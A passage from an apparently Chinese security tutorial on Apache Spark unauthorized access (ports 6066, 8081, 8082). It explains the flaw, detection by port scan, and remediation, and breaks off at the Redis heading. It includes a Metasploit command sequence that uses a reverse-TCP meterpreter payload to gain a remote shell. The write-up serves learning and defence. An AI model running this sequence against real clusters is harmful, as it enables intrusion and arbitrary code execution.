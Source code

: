 **10.    Apache Spark 未授权访问（6066、8081、8082）**
---------------------------------------------

### 漏洞简介

  Apache Spark 是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动访问控制，攻击者可以在集群中执行任意代码。该漏洞的本质是未授权用户可以向 Master 节点提交一个应用，Master 节点会分发给 Slave 节点执行应用。如果应用中包含恶意代码，会导致任意代码执行，威胁 Spark 集群整体的安全性。

### 漏洞检测

  nmap 扫描出如下端口开放，则很有可能存在漏洞

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504101140119-1303622300.png)

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504101150600-204738957.png)  

  使用 msf 工具 getshell

```
msf5>use exploit/linux/http/spark_unauth_rce

msf5>set payload java/meterpreter/reverse_tcp

msf5>set rhost 192.168.100.2

msf5>set rport 6066

msf5>set lhost 192.168.100.1

msf5>set lport 4444

msf5>set srvhost 192.168.100.1

msf5>set srvport 8080

msf5>exploit

```

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504101236328-1416448808.png)

### 漏洞修复

*   对外关闭敏感端口；
    
*   配置用户权限认证；
    

参考文章：[https://www.cnblogs.com/KevinGeorge/p/10399844.html](https://www.cnblogs.com/KevinGeorge/p/10399844.html)

**11.    Redis 未授权访问（6379）**
----------------------------
